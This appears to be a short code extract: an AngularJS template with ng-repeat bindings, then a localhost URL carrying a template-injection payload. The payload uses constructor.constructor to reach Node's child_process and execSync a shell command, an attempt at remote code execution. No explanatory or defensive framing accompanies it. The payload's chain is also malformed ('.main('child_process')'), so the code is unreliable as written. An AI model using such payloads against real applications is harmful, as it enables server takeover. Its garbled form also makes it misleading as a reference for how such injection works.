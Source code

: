 source code:

```
<div ng-controller="MyController">
  <h1>{{ title }}</h1>
  <div ng-repeat="item in items">
    <h2>{{ item.title }}</h2>
    <p>{{ item.description }}</p>
  </div>
</div>
```

```http://localhost:3000/?title={{constructor.constructor('return this.process.mainModule.require')().main('child_process').execSync('ls').toString()}}```

